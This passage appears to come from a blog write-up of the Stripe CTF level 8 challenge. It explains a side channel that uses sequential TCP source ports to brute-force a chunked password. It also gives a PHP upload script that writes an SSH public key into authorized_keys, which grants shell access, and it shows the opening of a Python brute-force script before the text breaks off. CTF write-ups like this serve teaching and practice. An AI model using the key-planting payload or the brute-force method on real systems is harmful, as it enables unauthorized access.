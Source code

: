 ```
[127.0.0.1:58877:1] Making request to chunk server ('127.0.0.1', 14437) (remaining chunk servers: [])
[127.0.0.1:58881:1] Received payload: '{"password_chunk": "000"}'
[127.0.0.1:58881:1] Request already finished!
[127.0.0.1:58881:1] Responding with: '{"success": false}\n'
[127.0.0.1:58877:1] Going to wait 0.0 seconds before responding
[127.0.0.1:58877:1] Request already finished!
[127.0.0.1:58877:1] Responding with: '{"success": false}\n'
[127.0.0.1:58877:1] Sending webhook to (u'localhost', 1111): {'success': False}
Releasing lock
```

The observation is this: the logs are showing you the TCP source port (i.e. "[127.0.0.1:**58877**:1] Sending webhook to (u'localhost', 1111): {'success': False}") are sequential. 

Knowing that source ports are sequential allows us to know how many chunk servers the PasswordDB server queried before responding.  If the source port for the response to our request is N, and the source port for the request to the webhook is N+2, only 1 chunk server was queried.  If the request to the webhook has a source port of N+3, then 2 chunk servers were queried.

The actual PasswordDB is running behind Apache, so the source port for the response won't be dependent on Twisted.  To solve that, we send two requests with the same guess and look at the difference in source ports between sequential requests to our webhook.  Now, we can bruteforce the 12 digit password by bruteforcing 4 3-digit chunks individually, which is doable in a reasonable amount of time.

PasswordDB can only make outbound requests to other Stripe servers so we have to run a script from somewhere on the Stripe server.  Luckily we can get ssh access to the level 2 server by uploading a php script that puts a public key in ~/.authorized_hosts:

```php
<?php
$output = `echo "ssh-rsa MY_PUBLIC_KEY ssh" > ../../.ssh/authorized_keys`;
echo "<pre>$output</pre>";
?>
```

![Level 8 Shell](/assets/images/stripe-ctf/level8-shell.png)

To brute force the password chunk by chunk, we send two requests with the same guess to PasswordDB and look at the difference in source ports between responses to our webhook.  If the difference when guessing the first chunk is 3, then PasswordDB made 2 requests between responding to us, and thus queried the 2nd chunk server.  Likewise if the difference when guessing the 2nd chunk is 4, and guessing the 3rd chunk is 5.  I found that due to what's probably other users on the same challenge, I would sometimes get source port differences that were wildly off.  I solved this sub optimally: any time that I have a source port difference greater than what I expect I wait 5 seconds and try again.  If I keep getting source port differences greater than the expected 5 times in a row, I probably correctly guessed a chunk.  This is a very suboptimal way to do it, and my script took a couple of hours to finish.

``` python
import socket, ssl, time

def make_guess(request):
    try:
        p1 = get_source_port(request)
        p2 = get_source_port(request)
        return p2 - p1
    except:
        print "something bad happened, trying again"
        return make_guess(request)

def get_source_port(request):
    client = ssl.wrap_socket(socket.socket(socket.AF_INET, socket.SOCK_STREAM))
    client.connect((HOST, PORT))
    client.sendall(request)
    resp = ""
    while 1:
```